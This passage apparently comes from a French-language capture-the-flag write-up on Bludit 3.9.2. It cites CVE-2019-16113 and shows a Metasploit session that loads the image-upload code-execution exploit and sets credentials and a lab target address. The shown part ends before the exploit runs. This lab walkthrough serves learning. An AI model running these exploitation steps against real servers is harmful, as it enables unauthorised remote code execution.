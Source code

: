 La version 3.9.2 de Bludit permet d'executer du code

Ref:

- [https://www.cvedetails.com/cve/CVE-2019-16113/](https://www.cvedetails.com/cve/CVE-2019-16113/)
- [https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081)

Il y a un module dans metasploit

~~~
msf5 > search Bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOST 10.10.10.191
RHOST => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
~~~